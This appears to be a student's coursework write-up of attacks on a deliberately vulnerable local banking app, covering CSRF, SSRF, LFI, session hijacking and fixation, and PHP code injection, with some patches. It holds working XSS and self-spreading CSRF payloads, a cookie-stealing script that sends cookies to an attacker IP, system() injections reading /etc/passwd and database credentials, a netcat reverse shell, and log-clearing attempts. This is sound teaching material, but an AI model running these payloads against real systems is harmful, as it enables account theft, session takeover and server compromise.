## Web Application Vulnerabilities -2

### Exercise 1: Cross Site Request Forgery (CSRF/XSRF)

#### Task 1
__Q 1. Briefly explain what CSRF/XSRF is in your own words (outline the roles and steps involved in XSRF attack).__

__Solution__

- Cross-site-request-forgery (CSRF)- is an attack where a malicious website exploits trust between the web browser and the authenticated user's website that is vulnerable.
- Unauthorized requests or commands are executed on behalf of the victim on a vulnerable website.
- Assume a vulnerable website that allows executing commands (like funds transfer) containing a URL for that fund's transfer. So when the user hits `transfer funds` with appropriate parameters, the request gets executed successfully.

- Steps involved:
    - Setup a malicious website.
    - Craft a script or source (like, `img` tags, `iframe`) that executes a request to transfer funds.
    - Allow the authenticated victim to access the malicious website.
    - Send the fund transfer request (Since the victim is authenticated and the URL/Script is crafted to transfer funds, cookies stored on the victim's browser also be sent).
    - Request is sent on behalf of malicious users so the request is executed successfully.


#### Task 2

__Q: What is the difference between XSS and CSRF/XSRF from their execution perspective?__  
__Solution:__ Both of these are client-side attacks. But, Cross-site scripting (or XSS) allows an attacker to execute arbitrary JavaScript within the browser of a victim user. Where as Cross-site request forgery (or CSRF) allows an attacker to trick a victim user to perform actions that they do not intend to.

#### Task 3

__Q: Briefly explain why your bank is theoretically vulnerable to CSRF/XSRF attack!__  
__Solution:__ After examining the web request from the `Transfer Funds` page, the web application doesn't send a unique identifier or token, that identifies the request being originated from the same domain or performed by an actual user.




#### Task 4

__Assume that you are a valid customer of your bank. Show how you can use XSRF to transfer money from another account to your account.__
__Solution:__ 
- In this attack, XSS vulnerability on the Account Details page is leveraged to perform CSRF.
- Run the Python HTTP server, where `error.html` is located.

    ```bash
        python -m SimpleHTTPServer 81
    ```

    ```html
    <html>
    <body>
        <script>
            const queryString = window.location.search;
            console.log(queryString);
            const urlParams = new URLSearchParams(queryString);
            const accountNo = urlParams.get('x');

            function getURL() {

                const url = "http://localhost/htdocs/index.php?page=htbtransfer&srcacc=" + accountNo + "&dstbank=41131337&dstacc=14314312&amount=1.95&remark=&htbtransfer=Transfer";
                http://localhost/htdocs/index.php?page=htbtransfer&srcacc=173105291&dstbank=41131337&dstacc=11111111&amount=1&remark=&htbtransfer=Transfer 
                window.open(url, "_blank");
            }
        </script>
        <html>
        <body>
            We are very sorry for the inconvenience, you had an error while during the last transaction, please click the
            button bellow to claim your refund plus 1 cent gift.
            <button onclick="getURL()"> Proceed </button>

        </body>

        </html>
    ```

- Three payloads were used due to the character limitations of the remark field.
- Navigate to Transfer Funds page and send the below three payloads in remark field to victim account from the attacker account.

    - Payload 1
    ```javascript
        <script>var x = document.getElementsByName("account")[0].value</script> 
    ```
    - Payload 2 
    ```javascript
        <script>function y(){window.open("http://localhost:81/error.html?x="+x, "_blank");}</script> 
    ```
    - Payload 3
    ```javascript

        <a onclick="y()">Error please click here!!</a>
    ```

- Once the payloads are transferred victim can see an ` Error please click here!!!` link in the remark field on the Account details page.


<!-- Todo image  -->
<!-- Todo  -->


- The page will be redirected to the `error.html` which is up and running.



- If the victim clicks on the 'proceed' button, the funds will be transferred to the attacker's account, and the page is redirected to the bank web application.




#### Task 5.
__Q: Enhance your last attack such that it automatically spreads to other accounts and transfers your money from them too. Briefly explain your attack.__

__solution__
- To perform this attack we have to make some assumptions to overcome some limitations.
- The assumption is that a bank account number is an eight-digit number with the same number in every digit place like 11111111,22222222,33333333....,99999999.
- Approaches and their limitations:
    - **Approach 1:** Bruteforce. to generate all account numbers and send the payload.
         - Limitation: Bruteforce is computationally costly.
    - **Approach 2:** Acquiring account number from the Account Details page.
         - Limitation: There might be a scenario where `Account A` has only `B`'s details on its account details page and `B` also has only `A`'s details in this case we are not able to spread the attack to other accounts.

- Because of these limitations for the demonstration of the attack, we made the assumption.

- To perform the attack please repeat the process explained in exercise 1.d replacing the cookie.html code with the code given below.

```html
<html>

<body>
    We are very sorry for the inconvenience, you had an error while during the last transaction, please click the button
    bellow to claim your refund plus 1 cent gift.
    <button onclick="getURL()"> Proceed </button>
    <div style="display:none" id="images"> </div>
</body>

<script>
    const queryString = window.location.search;
    console.log(queryString);
    const urlParams = new URLSearchParams(queryString);
    const accountNo = urlParams.get('x');
    console.log(accountNo);

    const allAccounts = [11111111, 22222222, 33333333, 44444444, 55555555, 66666666, 77777777, 88888888, 99999999];

    function getURL() {

        allAccounts.forEach(function (destAccount) {
            if (destAccount != accountNo) {
                var varName = new Image();
                varName.src = "http://localhost/htdocs/index.php?page=htbtransfer&srcacc=" + accountNo + "&dstbank=41131337&dstacc=" + destAccount + "&amount=1.1&remark=%3Cscript%3Evar+x+%3D+document.getElementsByName%28%22account%22%29%5B0%5D.value%3C%2Fscript%3E&htbtransfer=Transfer";
                document.getElementById('images').appendChild(varName);

                var funcName = new Image();
                funcName.src = "http://localhost/htdocs/index.php?page=htbtransfer&srcacc=" + accountNo + "&dstbank=41131337&dstacc=" + destAccount + "&amount=1.2&remark=%3Cscript%3Efunction+y%28%29%7Bwindow.open%28%22http%3A%2F%2Flocalhost%2Fhtdocs%2Ferror.html%3Fx%3D%22%2Bx%2C+%22_blank%22%29%3B%7D%3C%2Fscript%3E&htbtransfer=Transfer";
                document.getElementById('images').appendChild(funcName);

                var executeFunction = new Image();
                executeFunction.src = "http://localhost/htdocs/index.php?page=htbtransfer&srcacc=" + accountNo + "&dstbank=41131337&dstacc=" + destAccount + "&amount=1.3&remark=%3Ca+onclick%3D%22y%28%29%22%3EError+please+click+here%21%21%3C%2Fa%3E++&htbtransfer=Transfer";
                document.getElementById('images').appendChild(executeFunction);

            }
        });

        const url = "http://localhost/htdocs/index.php?page=htbtransfer&srcacc=" + accountNo + "&dstbank=41131337&dstacc=14314312&amount=1.95&remark=&htbtransfer=Transfer";

        window.open(url, "_blank");

    }
</script>

</html>
```
- When the victim clicks the ` Error please click here!!!` link the attack will spread to all accounts on the bank server.


<br></br>
<hr></hr>
<br></br>

### Exercise 2: Server-Side Request Forgery(SSRF)

__1. Briefly explain in your own words what is SSRF vulnerability and common SSRF attacks and what are the common SSRF defences circumventing__

__Solution__ 
- **SSRF(Server-side request forgery)** is a web server vulnerability where an attacker tricks the server to execute a request. with a specially crafted request, one can control the vulnerable application itself or other back-end systems that the server can communicate with. The malicious URL usually crafted using a publicly accessible URL, thus giving partial or full control on server requests.

- **Common SSRF attacks**
    - SSRF attacks can affect the server itself or the other backend systems that have a relation with the server.
    - SSRF attacks against the server itself.
    - In an SSRF attack against the server itself, the attacker tricks the application to make an HTTP request to the server itself via its loopback network interface. 
    - Consider an example where a user makes a `POST` request to fetch a  product. 
    - the request looks like below

    ```javascript

        POST /product/stock HTTP/1.0
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 118
        stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1

    ```
- This can be manipulated to 
    ```  
    POST /product/stock HTTP/1.0
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 118
    stockApi=http://localhost/admin
    ```
- Which returns the admin contents to the user.  

- SSRF attacks against other back-end systems. This type of attack can be performed when the application vulnerable server can interact with other back-end systems that are not directly reachable by users. 

- This attack can exploit by requesting 
    `stockApi=http://192.164.1.22/admin `

- **Common SSRF defenses:**
    - blacklist-based input filters,
        The application should block the requests containing `localhost`, `127.0.0.1` or other sensitive keywords like `admin`.
    - Whitelist-based input filters,by allowing input that matches, begins with, or contains.
    - Whitelist domains in DNS.
    - Do not send raw responses.
    - Sanitize and validate inputs.
    - Enable authentication on all services.


__2. What is the difference between SSRF and CSRF/XSRF from their execution
perspective?__

__Solution:__  CSRF targets the user, to trick or executes malicious links/requests, and send them to the server on behalf of them, whereas SSRF involves specifically targeting the server, which is vulnerable in handling user requests. Although in both cases, the server is vulnerable, the victim is different in CSRF and SSRF attacks.  


### Exercise 3: Local File Inclusion (LFI)

__1. Briefly explain what is a Local File Inclusion (LFI) vulnerability? By using a simple example, describe how do LFIs work and how to avoid this vulnerability? Show a vulnerable code and apply your patch to it.__

__Solution:__  **Local File Inclusion (LFI)** is a web vulnerability, where an attacker tricks the web application to dynamically load files from the webserver that are available locally.

*Example:* When an application receives an unsanitized user input, and processed, which exposes local files because of the input that directly constructs the file path, which is included in a response.

**sample vulnerable code**

```php

    echo "File included: ".$_REQUEST["page"]."<br>";
    echo "<br><br>";
    $local_file = $_REQUEST["page"];
    echo "Local file to be used: ". $local_file;
    echo "<br><br>"
    include $local_file;

```

How it works:

- The application uses file path as an input.
- User input is treated as trusted and safe.
- A local file can be included as a result of user-specified input to the file include.
- Application returns the file contents as a response.


**Avoiding the Vulnerability**
    - ID assignation: Saving file paths in a database with an ID for every single one, this way user can only see the ID without viewing or altering the path.
    - Whitelisting: An application can allow verified and secured whitelist files and ignore other input or file names.

- **A vulnerable code**
    ```php
     $local_file = $_REQUEST["page"];
     include ($local_file. '.php')
      ```

- **Fix: Whitelisting file**
    ```php
     $allowed_files = array('index','transfer','accounts'); //list of files that are allowed to be included 
     $local_file = $_REQUEST["page"];
     if(in_array($local_file, $allowed_files)) { //check if the requested file is in allowed array list
        include ($local_file. '.php')
    }
    ```

    > It is also best, that none of the  allowed_files can be modified by attacker, epecially with file uploads where the attacker has control over file names.


__2. How do you identify and exploit LFI? Describe it with a simple example.__

- Look for the page that includes file names or pages as URL parameters like,
    ```javascript
         http://www.vbank.com/file.php?file=transfer.php 
    ```
- Change file by changing the file include or file path URL.
- Traverse through the directory to look for local files and observe the  response from the application.
 
- Example..
    ```javascript
        http://www.vbank.com/file.php?file=../etc/shadow  //does'nt work
    ```
    ```javascript
        http://www.vbank.com/file.php?file=../../etc/shadow // does'nt work
    ```
    ```javascript
        http://www.vbank.com/file.php?file=../../../etc/shadow // shows the shadow file
    ```
- If the file path is true and the application doesn't filter and the file is available local to the server, contents can be displayed on the browser as a response.
- The lack of input validation and filtering for files allows reading file contents.


__3. Briefly explain what is Remote File Inclusion (RFI) and how can you minimise the risk of RFI attacks? And LFI vs. RFI?__  
__Solution:__  
- **Remote File Inclusion (RFI)** web vulnerability where arbitary input is allowed in file include request that dynamically refere external scripts.
- If that input is not sanitized, that can lead to the execution of remote files from a remote URL located within a different domain.
- In PHP, using the unsanitized input in functions like `include`,`include_once`, `require`, `require_once` lead to such vulnerabilities.
- Typical Vulnerable code.

    ```php
        echo "File included is :". $_REQUEST["file"]."<br>";
        echo "<br><br>";
        include $_REQUEST["file"];
    ```
- **Minimizing risks:**
    - Sanitize user-provided inputs in (GET/POST parameters, URL parameters and HTTP header values).
    - Build a whitelist and allow request execution only with the requests with those files.
    - For RFI to work, `allow_url_include` must be turned `On` in PHP configuration (located in `php.ini`). This can be turned `Off` to minimize the risk of fetching remote files. Usually on default installation this is turned `Off`.    

- **LFI Vs RFI**
    - LFI and RFI are almost similar, both the attacks result in the upload of malware to the server to gain unauthorized access to sensitive data.
In the RFI the attacker uses remote files whereas in LFI local files are used to carry out the attack. 


### Exercise 4: Session Hijacking


__1. Install a webserver on your machine. Use it to write a script that will read the
information required to hijack a session. Briefly describe your script.__

__Solution:__ 
    - Installed Python  and run the webserver module,
```bash
    $ python3 -m http.server
        Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)
```  
- Initiate multiple funds transfer with following remarks,
> Multiple transfers are required as the remarks input is limited to 100 characters after encoding the contnets in it. For that reason, **payload is staged**.
- Remarks in transfer 1:

```javascript
<script>new Image().src="http://192.168.37.128:81/c="+document.cookie;</script>
```



- The above scripts automatically sends a `GET` request(whenn the victim page  is loaded) to the attacker address.

- The request for the above script can be seen in attacker's server logs,
    ```bash
        └─$ sudo python -m SimpleHTTPServer 81                                                                            
        Serving HTTP on 0.0.0.0 port 81 ...
        192.168.37.128 - - [23/May/2021 15:34:01] code 404, message File not found
        192.168.37.128 - - [23/May/2021 15:34:01] "GET /cookie.html?c=USECURITYID=crblk95qe8b8mmdcva0saaj9m4 HTTP/1.1" 404 -
        192.168.37.128 - - [23/May/2021 15:35:07] code 404, message File not found
        192.168.37.128 - - [23/May/2021 15:35:07] "GET /cookie.html?c=USECURITYID=crblk95qe8b8mmdcva0saaj9m4 HTTP/1.1" 404 -
        192.168.37.128 - - [23/May/2021 15:38:23] code 404, message File not found
        192.168.37.128 - - [23/May/2021 15:38:23] "GET /c=USECURITYID=crblk95qe8b8mmdcva0saaj9m4 HTTP/1.1" 404 -

    ```
- From the logs we can observe the request contents `USECURITYID=crblk95qe8b8mmdcva0saaj9m4` which we know that, is a cookie value.


__2. Use the implementation from the last step to hijack the session of a customer of your bank. Briefly describe the steps to perform this attack.__

__solution:__

- Copy the `USECURITYID=b35oqi84j4l16mecckl4lksf60`(another captured cookie) that is captured on the server log.
- Installed `EditThisCookie` extension from chrome https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg/related?hl=en
- Open the login page of the application in a private window .
- Paste the cookie  value, into the `Value` field.

- Click on Green tick below the window.
- Reload the page.
- Should be logged in as a user.
- **Result**


    


__3. Which possible implementation mistakes enable your attack?__
__Solution :__
1. Application is vulnerable to XSS(unsanitized user input at `Remarks` field), thus leveraging it to steal cookies.
2. Cross-domain requests are possible(allowing it to send arequest to the attacker's site), no `Same-Origin-Policy` is implemented.
3. No `HttpOnly` flag, as this tells the browser not to display access cookies through client-side scripts.


__4. How would https influence it?__
__Solution:__ `HTTPS` has no significant influence in this case, as the attacker can still access the cookie (as it is stored un-encrypted) and send it over to the attacker's server. However, this would be beneficial if the attacker is in the same network as the user and try to steal cookies, as the data is sent encrypted. 
 If cookies are sent in headers `secure` flag should be set, indicate to the browser that cookies can only be sent in `HTTPS` requests.

__5. Implement some precautions which can prevent or mitigate this attack?__

__Solution:__  
1. Sanitize user input to avoid any injection into the application.
- Vulnerable code:  

    ```php
    $sql="insert into ".$htbconf['db/transfers']." (".$htbconf['db/transfers.time'].", ".$htbconf['db/transfers.srcbank'].", ".$htbconf['db/transfers.srcacc'].", ".$htbconf['db/transfers.dstbank'].", ".$htbconf['db/transfers.dstacc'].", ".$htbconf['db/transfers.remark'].", ".$htbconf['db/transfers.amount'].") values(now(), ".$htbconf['bank/code'].", ".($http['srcacc'] ^ $xorValue).", ".$http['dstbank'].", ".$http['dstacc'].", '".$http['remark']."', ".$http['amount'].")";  

    $result = mysql_query($sql);

    ```

- Fixed code:   
    ```php
    $sql="insert into ".$htbconf['db/transfers']." (".$htbconf['db/transfers.time'].", ".$htbconf['db/transfers.srcbank'].", ".$htbconf['db/transfers.srcacc'].", ".$htbconf['db/transfers.dstbank'].", ".$htbconf['db/transfers.dstacc'].", ".$htbconf['db/transfers.remark'].", ".$htbconf['db/transfers.amount'].") values(now(), ".$htbconf['bank/code'].", ".($http['srcacc'] ^ $xorValue).", ".$http['dstbank'].", ".$http['dstacc'].", '".htmlspecialchars($http['remark'])."', ".$http['amount'].")";  

    $result = mysql_query($sql);
    ```
    
2. set `Http Only` flag to true in both index.php and login.php(where session is being set) to avoid cookies being accessed by client side scripts.
 
```php
session_set_cookie_params($htbconf['bank/cookievalidity'],null,null,null,true);
```
**Result**


- `document.cookie` cant access cookie value.


- Go to `etc/apache2/apache2.conf` file and override `AllowOverride none` to `AllowOverride All`. 



- Create a .htaccess file in your website directory (/var/www/html) with following lines.
 


    


### Exercise 5: Session Fixation

__1. Explain the difference to Session Hijacking.__  
__Solution :__ In Session Fixation, the attacker forces the user to use the session of his choice, wherein  Session Hijacking, the logged-in user session is hijacked.


__2. Sketch an attack that allows you to take over the session of a bank user__

__Solution :__
- Found two approches in hijacking a session using session fixation.
    1. This approch leverages the phishing attack. A victim is provided with a link and assumption is that he clicks the link.
    2. Manual way, setting the broswer cookie to desired value with key being `USECURITYID` (assuming that attacker has physical access to victim's browser).

**Approach 1** (Victim: `Alex`)
- create a html file in your server folder with the following script,
	```html
		<html>
		<script>
		function getURL(){
		document.cookie="USECURITYID=abcde";

		window.open("http://localhost/htdocs/index.php?", "_blank");
		}
		</script>
		  <head>

		  </head>
		  <body>
			<h1> Congo bro you are not gonna get hacked!! :D </h1>
		   <button onclick="getURL()"> Login </button>
		  </body>
		</html>	
	```

- User is provided with the link  `http://localhost:81/bank.html` which will redired to bank web application.

    

- When user get redirect the cookie value will be set to `abcde`.
    .

- Use the cookie value obtained and edit in the browser application and reload the page.
    

- Attacker will now login into victim account.
- **Result**
    
  
**Approach 2: Manual Approach** (Victim: `Bob`)
- **step 1**: Open `EditThiCookie` extension and click on import.
- **step 2:** Use the following payload to set the cookie value,
```javascript
[
{
    "domain": "192.168.37.128", //domain name or IP
    "expirationDate": 1621190036.198929,
    "hostOnly": true,
    "httpOnly": false,
    "name": "USECURITYID",
    "path": "/",
    "sameSite": "unspecified",
    "secure": false,
    "session": false,
    "storeId": "0",
    "value": "abcdefghi",  //fixed value for name 'USECURITYID'
    "id": 1
}
]
```
 
 
-  Allow the user to log in.
***Before Log in***


***After Log in*** Same cookie value exists.




- **step 3**: In another browser use the same cookie values to import it to `EditThisCookie` extension.
- **step 4** Reload the page.

 **Result** : Session successfully hijacked using the fixed cookie value.


 

> Another approach
    - setting the cookie value using HTTP header response by intercepting the traffic between web server and client's browser.


__3. How can you generally verify that an application is vulnerable to this type of attack?__
__solution:__
- Set the cookie value to random string(usually similar length or format as actual cookie value) before logging in to the application.
- Now login to the application.
- Observe the cookie value set  after login by the application in developer tools => storage.
- If the cookie value is same as set before login and no new cookie name, values or parameters are added and the account is still logged in, then we can confirm that application is vulnerable to session fixation attack.


__4. Does https influence your attack?__
__Solution :__ `https` has No influence on carrying out the session fixation attack, as the cookie values can be set in various ways, encrypting the traffic or running the application over secure protocol has no effect.


__5. Accordingly, which countermeasure is necessary to prevent your attacks?
Patch your system and test it against Session Fixation again.__


__Solution__ Everytime a session has been started regenerate the session id.

```php
	session_start();
	session_regenerate_id(TRUE); 
	$_SESSION=array(); // initializing a empty array values the session variable.
```


### Exercise 6: Remote Code Injection

__1. Find a section that allows you to inject and execute arbitrary code (PHP). Document your steps and explain why does it allow the execution?__
__solution :__
1. Found user input on `htbdetails` > `Account details` page, where arbitary code injection is possible.
 After analysing the source code:
```php
$replaceWith =  "preg_replace('#\b". str_replace('\\',
                '\\\\', $http['query']) ."\b#i', '<span
                class=\"queryHighlight\">\\\\0</span>','\\0')";
```
preg_replace function is in strings and input is part of the string, terminated using `'` and injected php code and opened `'` for the continueing string.

payload:
```php
    ' . phpinfo() .'
```
> `.` is used to concatenate to the string.

that breaks the following query,
```php
$replaceWith =  "preg_replace('#\b". str_replace('\\',
                '\\\\', $http['query']) ."\b#i', '<span
                class=\"queryHighlight\">\\\\0</span>','\\0')";
```
into,

```php
$replaceWith = "preg_replace('#\b'. phpinfo() .'\b#i', '\\0','\0')";
```

```php
$replaceWith =''.phpinfo().'';  
```

- **Result**



__2. Disclose the master password for the database your bank application has access to. Indicate username, password and DB name as well as the IP address of the machine this database is running on.__
__solution__ 

- Find the current location of the application and files in it. 

```php
 '. system("pwd"); .' 
``` 
<!-- Todo Images -->

```php
 '. system("ls"); .' 
``` 

**Result**




- Found `config.php` file in `/etc` folder, now use the path to display out to the browser.

    ``` php
    '. system("cat ../etc/config.php"); .' 
    ```	


    


**Database Details found:**


|  Identifier |  Value |
|---|---|
| Database Name  |  vbak |
| user  |  root |
| password  |  kakashi |
|ip| 127.0.0.1|


__3. Explain how you can display the php settings of your webserver! Which information is relevant for the attacker?__
__solution__

<!-- Todo -->
- Relevant info:
	- Exposing PHP version can lead to know attacks on that particular version.

	 


	- Access to remote files can lead to attacks like SSRF.

	 

	 - Open directory on can lead to remote file inclusion vulnerabilities.

	 

	 - Session details are useful to plot attack on user sessions like Session Hijaking or Fixation.

	 


__4. Assume you are running a server with virtual hosts. Can you disclose the password for another bank database and can you access it? Explain which potential risk does this vulnerability imply for virtual hosts?__
__Solution__
Yes, as the code injection can lead to server takeover, it is possible to view database and passwords of all the bank acounts running on root host.
Since the settings(`example.conf`) can be modified(Assuming the taken over account has write permissions).

> Usually database is same for all sub-domains in the application, unless the database is different for each virtual host, there are chances that vulnerable vhost has no to minimum impact on accessing other databases.

If one virtual host is exploitable(code injection) that lead to other subdomain take over because of remote code injection vulnerability in one, which is a potential risk in vhosts.
- Even though attacker may not have access to other subdomains intially, vulnerable subdomain (which attacker has access to) leads to other sub-domain take over.


__5. Display /etc/passwd of the web server, the bank application is running on. Try
different methods to achieve this goal. Explain why some methods cannot be
successful.__
__solution__

- payload used:
    ```php
        '. system("cat /etc/passwd") .'
    ```
- Result:

    

- Other methods used/tried:(not successful)

```php
    ' . echo include_once('/etc/passwd') . '
```

```php
    ' . show_source("../../../../../../../etc/passwd", true) . '
```

```php
    ' .  echo file_get_contents("../../../../../../../etc/passwd"); . '
```

The above methods are un-successfull as they are executing on server side but not as a response that can be viewed in browser.


__6. Show how to “leak” the complete source files of your web application. Briefly describe, how you accomplished this.__
__solution :__
- Since, command execution on `htbdetails` > `Account details` page is possible, we used system commands to display the source files.

- Leaking index page
    - payload used 
        ```php
        '. system("cat index.php") .'
        ```
    - Application URL
        ```javascript
        http://192.168.37.128/htdocs/index.php?account=173105291&page=
        htbdetails&query=%27.+system%28%22cat+index.php%22%29+.%27&
        submit=Submit+Query
        ```
    -  **Result**

        
        <br></br>

- Leaking login.php page
    - payload used
    ```php
    '. system("cat login.php") .'
    ```
    - Application URL 
        ```javascript
        http://192.168.37.128/htdocs/index.php?account=173105291page=htbdetails
        &query=%27.+system%28%22cat+login.php%22%29+.%27&submit=Submit+Query
        ```
    - **Result**
    


__7. Suppose you are an anonymous attacker:
a) Upload a web shell on the victim server and show that you can take
control of the server.
b) Deface the main bank page.
c) Clear possible traces that could lead to you.__
__solution :__

**a**). Used `netcat` for creating a reverse connection from victim machine
- payload used:
```php
    '. system("nc -e /bin/sh 192.168.37.128 1234") .'
```

- On attcker machine (listen on corresponding port - 1234),
```bash
    $ sudo nc -lvnp  1234  
```
- **Result** (received connection from victim)


**b**). look for file permissions of index page (navigate to /var/www/html/htdocs),
```bash
$ ls -la
ls -la
total 40
drwSr-sr-x 3 root  root 4096 May 10 07:23 .
drwxr-xr-x 6 root  root 4096 May 12 10:15 ..
-rw-rw-rw- 1 mysql root  141 May 10 07:23 file
-rw-r--r-- 1 root  root 6791 Apr  6  2014 htb.css
-rw-r--r-- 1 root  root  591 Apr  6  2014 htb.js
drwxr-xr-x 3 root  root 4096 Mar 20  2014 images
-rw-r--r-- 1 root  root 7080 May 12 11:06 index.php
-rw-r--r-- 1 root  root 1997 May 10 05:34 login.php

```

> `index.php` is not writeable- hence defacing the obrtained account is not possible.


**c**). Escaping tty shell for better readability in terminal.
- payload used:
    ```bash
    python -c 'import pty; pty.spawn("/bin/sh")'
    ```
- locating bash_history
    ```bash
    $ locate bash_history
    locate bash_history
    /home/kali/.bash_history
    $ cd /home/kali/
    ```
- look for permissions
    ```bash
    $ ls -la | grep bash

    -rw-r--r--  1 kali kali      1 Mar  3 16:41 .bash_history
    -rw-r--r--  1 kali kali    220 Feb 23 05:36 .bash_logout
    -rw-r--r--  1 kali kali   4705 Feb 23 05:36 .bashrc
    -rw-r--r--  1 kali kali   3526 Feb 23 05:36 .bashrc.original
    ```
    > Since .bash_history is not writable, deleting is not possible.

- locating other log files
    ```bash
    $ locate log | grep apache
        /etc/apache2/conf-available/other-vhosts-access-log.conf
        /etc/apache2/conf-enabled/other-vhosts-access-log.conf
        /etc/apache2/mods-available/log_debug.load
        /etc/apache2/mods-available/log_forensic.load
        /etc/logrotate.d/apache2
        /usr/lib/apache2/modules/mod_log_debug.so
        /usr/lib/apache2/modules/mod_log_forensic.so
        /usr/share/apache2/icons/openlogo-75.png
        /usr/share/doc/apache2/changelog.Debian.gz
        /usr/share/doc/apache2/changelog.gz
        /usr/share/doc/apache2-bin/changelog.Debian.gz
        /usr/share/doc/apache2-bin/changelog.gz
        /usr/share/doc/apache2-data/changelog.Debian.gz
        /usr/share/doc/apache2-utils/changelog.Debian.gz
        /usr/share/doc/apache2-utils/changelog.gz
        /usr/share/doc/libapache-pom-java/changelog.Debian.gz
        /var/lib/apache2/conf/enabled_by_maint/other-vhosts-access-log
        /var/log/apache2

    ```
- navigate to /var/log/
    ```bash
    $ cd /var/log
    ```
- look for file permissions
    ```bash
    ls -la
    total 5500
    drwxr-xr-x  19 root     root               4096 May 22 04:44 .
    drwxr-xr-x  12 root     root               4096 Apr 16 16:32 ..
    -rw-r--r--   1 root     root              25060 May 22 08:54 Xorg.0.log
    -rw-r--r--   1 root     root              54260 May 19 04:44 Xorg.0.log.old
    -rw-r--r--   1 root     root              24191 May 15 06:21 Xorg.1.log
    -rw-r--r--   1 root     root              24195 May 15 05:31 Xorg.1.log.old
    -rw-r--r--   1 root     root                516 May  4 10:15 alternatives.log
    -rw-r--r--   1 root     root               1680 Apr 28 06:12 alternatives.log.1
    -rw-r--r--   1 root     root               6567 Mar  9 10:10 alternatives.log.2.gz
    drwxr-x---   2 root     adm                4096 May 19 04:04 apache2
    drwxr-xr-x   2 root     root               4096 May 15 19:06 apt
    -rw-r-----   1 root     adm               67039 May 22 08:55 auth.log
    -rw-r-----   1 root     adm              316551 May 16 04:35 auth.log.1
    -rw-r-----   1 root     adm               11047 May  8 15:39 auth.log.2.gz
    -rw-r-----   1 root     adm               10748 May  1 18:55 auth.log.3.gz
    -rw-r-----   1 root     adm                5532 Apr 25 04:22 auth.log.4.gz
    -rw-------   1 root     root               5501 May 19 04:45 boot.log
    -rw-------   1 root     root               5501 May 14 02:51 boot.log.1
    -rw-------   1 root     root               5501 Apr 30 07:39 boot.log.2
    -rw-------   1 root     root               6759 Apr 25 04:22 boot.log.3
    -rw-------   1 root     root               5451 Apr 19 00:49 boot.log.4
    -rw-------   1 root     root              66466 Apr  2 05:52 boot.log.5
    ```
    > All the files found are not writeable by service account `www` which we exploited.


